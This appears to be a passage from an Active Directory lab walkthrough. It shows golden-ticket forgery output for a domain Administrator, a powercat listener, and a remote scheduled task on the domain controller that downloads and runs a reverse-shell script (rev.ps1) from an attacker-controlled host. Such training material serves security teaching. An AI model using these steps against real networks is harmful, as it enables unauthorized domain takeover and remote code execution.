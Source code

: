 ```
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ dollarcorp.moneycorp.local' successfully submitted for current session

PS C:\AD\Tools\tickets> klist

Current LogonId is 0:0x13e49c3

Cached Tickets: (2)

#0>     Client: Administrator @ dollarcorp.moneycorp.local
        Server: host/dcorp-dc @ dollarcorp.moneycorp.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 1/25/2021 6:47:30 (local)
        End Time:   1/23/2031 6:47:30 (local)
        Renew Time: 1/23/2031 6:47:30 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:

#1>     Client: Administrator @ dollarcorp.moneycorp.local
        Server: host/dcorp-dc.dollarcorp.moneycorp.local @ dollarcorp.moneycorp.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 1/25/2021 6:47:11 (local)
        End Time:   1/23/2031 6:47:11 (local)
        Renew Time: 1/23/2031 6:47:11 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

* In another powershell window (2), setup `powercat.ps1`

```
PS C:\Windows\system32> cd C:\AD\Tools\
PS C:\AD\Tools> . .\powercat.ps1
PS C:\AD\Tools> powercat -v -l -p 443 -t 10000
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
```

* Go back and create a schtask in the other powershell window (1) then run the task

```
PS C:\AD\Tools\tickets> schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.3/rev.ps1''')'"
SUCCESS: The scheduled task "STCheck" has successfully been created.
PS C:\AD\Tools\tickets> schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
SUCCESS: Attempted to run the scheduled task "STCheck".
```
